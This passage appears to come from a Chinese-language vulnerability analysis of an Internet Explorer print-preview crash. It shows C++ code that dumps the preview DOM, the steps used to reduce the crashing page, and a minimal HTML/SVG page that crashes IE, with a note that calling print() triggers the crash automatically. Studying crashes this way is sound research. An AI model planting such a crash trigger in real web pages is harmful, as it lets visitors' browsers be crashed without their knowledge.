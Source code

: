 ```
    hr = spElementCollection->get_length(&lElementCount);
    if (FAILED(hr)) 
        return -3;

    VARIANT vIndex; vIndex.vt = VT_I4;
    VARIANT vSubIndex; vSubIndex.vt = VT_I4; vSubIndex.lVal = 0;
    for (vIndex.lVal = 0; vIndex.lVal < lElementCount; vIndex.lVal++)
    {
        CComPtr<IDispatch> spDispatchElement;
        if (FAILED(spElementCollection->item(vIndex, vSubIndex, &spDispatchElement)))
            continue;
        CComPtr<IHTMLElement> spElement;
        if (FAILED(spDispatchElement->QueryInterface(IID_IHTMLElement, (void**)&spElement)))
            continue;
        CComBSTR outerHTML;
        spElement->get_outerHTML(&outerHTML);
        OutputDebugStringW(outerHTML);


    }

    ::CoUninitialize();
    return 0;
}

```

取得窗口的DOM如下：

![p3](http://drops.javaweb.org/uploads/images/f266a5f63821a067d79f2771f073382afe413d2a.jpg)

将其输出到文件，自行添上`</BODY></HTML>`即为完整的内容。不过需要记得的是Layout等元素只在打印预览中有效，所以单独提取出来崩溃不了也不要太疑惑，这里只是为了方便了解预览中最终的DOM分布情况而已。

接下来，让我们复现崩溃吧。打开map.yahoo.co.jp，访问出现崩溃的代码，右键预览。只不过这次我们使用缓存文件的方式来精简代码。预览后，从%TEMP%下复制走所有新生成的HTM文件，然后调节打印预览的比例为666%。在确定仍然可以崩溃之后，让我们开始删除无用数据，记下异常偏移e9b102（在我的机器上是这个数字，因为有些崩溃在精简代码时可能变成其他的崩溃，所以最好记下偏移地址，以免中途不知道从什么位置产生了新问题）。多次精简之后，我们留下了下列代码：

```
<!DOCTYPE HTML>
<HTML><HEAD>
</HEAD> 
<BODY>
<DIV style="left: -5000px; top: -5000px; width: 10000px; height: 10000px; text-align: justify; position: absolute; z-index: 0;"><svg 
xmlns="http://www.w3.org/2000/svg" style="position: relative;" viewBox="0 0 10000 10000" 
width="10000" height="10000" />
</DIV>
</BODY></HTML>

```

而且精简到这一步就可以发现，只要发起打印预览，IE就会直接崩溃。所以，为了让IE自动触发崩溃，我们手写一下调用print();即可。

